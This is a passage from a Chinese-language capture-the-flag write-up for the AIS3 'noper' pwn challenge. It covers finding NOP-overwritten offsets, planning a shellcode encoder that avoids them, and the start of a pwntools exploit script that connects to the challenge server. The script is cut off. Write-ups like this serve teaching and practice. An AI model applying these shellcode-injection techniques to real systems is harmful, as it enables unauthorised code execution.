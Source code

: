 再把上面的程式輸出在整理一下即可

``` bash
gcc solveNop.c;./a.out | sort -V > tmp ;cat tmp
```

列出

```
6
10
13
17
39
41
41
44
51
63
```

再來寫一個編碼器就可以了，這裡只是把 shellcraft 的 opcode 嘗試避開寫入 nop 的位置，來避免 shellcode 異常

### exploit

``` python
#!/usr/bin/env python3
from pwn import *
import sys
import pwnlib.shellcraft
import pwnlib
import pickle

debug = 0

c = 0
pwn_file = "./noper"
elf = ELF(pwn_file)
#libc = ELF('libc-2.31.so')

context.os='linux'
context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 100
context.log_level = 0

c = 0
if debug == 1:
    c = process(pwn_file)
    elf_path = c.cwd + pwn_file.strip('.')
    gdbcmd = '''
    set $elf={}
    b *$elf+0x1327
    #b *$elf+0x1307

    '''.format(hex(c.libs()[elf_path]))
    gdb.attach(c, gdbscript=gdbcmd)
else:
    c = remote('quiz.ais3.org', 5002)


nops = [int(x) for x in """6
10
13
17
39
```